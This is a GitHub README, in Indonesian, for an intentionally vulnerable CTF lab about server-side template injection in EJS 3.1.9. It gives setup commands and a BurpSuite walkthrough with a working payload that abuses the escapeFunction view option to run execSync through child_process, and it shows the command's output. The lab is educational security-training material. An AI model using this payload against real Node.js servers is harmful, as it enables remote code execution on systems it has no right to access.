





# 🧪 EJS-SSTI-VULN: Server-Side Template Injection Playground

> CTF Labs | by [ctflabs-id](https://github.com/ctflabs-id)

---

## 🎯 Apa Itu SSTI?

**SSTI (Server-Side Template Injection)** adalah jenis kerentanan di mana user dapat menyisipkan *template code* ke dalam input yang dirender oleh server menggunakan template engine seperti EJS, Jinja2, Twig, dan lainnya.

Dengan memanfaatkan kelemahan ini, attacker dapat:
- Mengeksekusi perintah server-side (`RCE`)
- Membaca environment variabel
- Akses ke file sistem

---

## ⚙️ Cara Kerja EJS SSTI (v3.1.9)

Pada **EJS versi 3.1.9**, jika diset `client=true` dan `escapeFunction` dilewatkan sebagai function injection, maka **arbitrary JS code** bisa dijalankan saat template dirender.

Contoh payload:
```bash
&settings[view options][client]=true
&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');
```

---

## 🚀 Instalasi Lab Lokal (only works on linux servers / os / vm, tested on Kali)

```bash
git clone https://github.com/ctflabs-id/EJS-SSTI-VULN
cd EJS-SSTI-VULN
npm install
npm start
```

💡 Jalankan pada terminal pertama ```node app.js```,
Jalankan BurpSuite pada background untuk intercept

## Step-by-Step Eksploitasi

1. Aktifkan BurpSuite Intercept
</img>
2. Buka browser ke: `http://localhost:3000/settings`
</img>
3. Masukkan credentials apapun (nama & password ex: malvin, 123)
</img>
4. Submit form dan tangkap request-nya di BurpSuite
</img>
5. Masukkan Payload SSTI ke dalam body request seperti ini:
```bash
name=ctfer&password=123&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');
```
</img>
6. Forward Request, kembali ke browser dan lihat hasil perintah dieksekusi!
</img>

<hr>

🔎 Output Contoh
```html
Welcome ctfer
web
```

🎓 Tujuan Lab Ini
1. Memahami dampak eksploitasi SSTI
2. Belajar intercept dan manipulasi request real-time
3. Eksperimen dengan template injection di Node.js (EJS Engine)

<hr> 

⚠️ Disclaimer
Lab ini hanya untuk tujuan edukasi dan riset keamanan.
Jangan gunakan teknik ini untuk menyerang sistem tanpa izin.

<hr>

🤝 Kontribusi Pull request & issue welcome via: ctflabs-id/EJS-SSTI-VULN

🧠 Maintained by

    GitHub: @ctflabs-id
    Website: ctflabsid.my.id

